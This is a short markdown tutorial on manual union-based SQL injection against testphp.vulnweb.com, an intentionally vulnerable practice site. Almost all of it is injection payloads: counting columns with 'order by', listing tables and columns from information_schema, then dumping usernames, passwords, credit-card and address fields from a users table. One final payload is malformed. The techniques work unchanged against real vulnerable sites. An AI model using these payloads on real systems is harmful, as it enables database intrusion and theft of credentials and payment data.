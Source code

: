# Website Database Hacking Without Using Any Tool

### Step_1

- `go to link` `http://testphp.vulnweb.com/`

  - menu: `artists`
    - hit first link: `r4w8173`
    - you can see this link `testphp.vulnweb.com/artists.php?artist=1`

- add ` ` `
  - http://testphp.vulnweb.com/artists.php?artist=1`
  - we can see `Warning. mysql_fetch_arrar() ....` like this.

### Find Column

- testphp.vulnweb.com/artists.php?artist=1 `order by 5--`
  - we can't find any
  - u can change 5 or 4 or 3
    - we got 3
      - then you see `artist: r4w8173`
        - it does mean we have 3 columns

### Find Table name

- testphp.vulnweb.com/artists.php?artist=1 `union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--`

- we cannot find table

  - then we can add **-1** or **-1`** or **-1-**

    - testphp.vulnweb.com/artists.php?artist=`-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--`

  - we found `8 tables`
    - `artists,carts,categ,featured,guestbook,pictures,products,users`

### find out column name

- `users`

  - `testphp.vulnweb.com/artists.php?artist=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users"--`

- then you can see column name

  - `uname,pass,cc,address,email,name,phone,cart`

- You want to check unmae

  - `testphp.vulnweb.com/artists.php?artist=-1 union select 1,2,group_concat(uname) from users--`

  - then u can see username `test`

- You also can subtitute column name `uname,pass,cc,address,email,name,phone,cart`
  - testphp.vulnweb.com/artists.php?artist=-1 union select 1,2,group_concat(`pass`or`cc`or`address`or`email`) from users--
